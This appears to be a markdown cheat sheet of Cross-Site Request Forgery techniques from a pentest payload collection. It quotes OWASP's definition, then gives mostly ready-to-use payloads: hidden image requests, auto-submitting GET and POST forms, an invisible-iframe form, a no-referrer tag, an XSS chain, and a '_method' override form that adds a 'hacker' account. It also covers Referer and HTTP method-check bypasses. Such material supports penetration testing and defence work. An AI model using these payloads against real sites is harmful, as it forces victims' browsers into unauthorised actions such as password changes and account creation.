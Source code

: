 # CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


## CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

## GET Requests Exploits

### Invisible mage Loading
`<img style="display:none;" src="http://vulnerable-site.com/vuln?param1=value1&param2=value2&..."/>`

### Link clicking
`<link href="http://vulnerable-site.com/vuln?param1=value1&param2=value2&...">`

```
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

## POST Requests Exploits

### Visible Form
```html
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form>
		<script> document.forms[0].submit();</script>  
	</body>
</html>
```

### Invisible Form
```html
<html> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
		<script>document.getElementById("pwn-form").submit()</script>
	</body>
</html>

```

## DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy.

## Protection Bypass

### Referer Header Check Bypass

#### Send a request with no `Referer` header 

`<meta name="referrer" content="no-referrer">`

#### Chain CSRF vulnerability with XSS

`POST http://vulnerable-site.com/xssvuln?id=<script type="text/javascript">window.location="http://vulnerable/vuln";</script>`

### HTTP Method Check Bypass through HTTP Method Tunneling :

#### `X-HTTP-Method-Override` Method

Not all clients can properly issue all HTTP Methods, then some servers offer an HTTP Method Tunneling feature that enables us to "encapsulate" an HTTP Method into another. To do so simply write the HTTP Method request to invoke in an `X-HTTP-Method-Override` HTTP Header and issue the request with a supported method.

This is also a very handy trick to bypass Firewall restrictions on HTTP methods.


#### `_method` Parameter Method

**Supported on :**

**Symfony**

* 2.2 / >=2.3 ([Disabled by default / Enabled by default](https://symfony.com/doc/2.6/cookbook/routing/method_parameters.html#faking-the-method-with-method))

**Laravel**

* \>=4.1 ([Enabled by default](https://laravel.com/docs/5.6/routing#form-method-spoofing))

```html
<html>
	<body>
		<form action="http://[HOST]/user/add" method="POST">
			<input name="_method" type="hidden" value="ARBITRARY_METHOD" />
			<input name="user" type="hidden" value="hacker" />
			<input name="password" type="hidden" value="pwd" />
		</form>
		<script>document.forms[0].submit()</script>
	</body>
</html>
```

#### References : 

[Minded Security - Request parameter "_method" may lead to CakePHP CSRF Token Bypass](http://blog.mindedsecurity.com/2016/01/request-parameter-method-may-lead-to.html)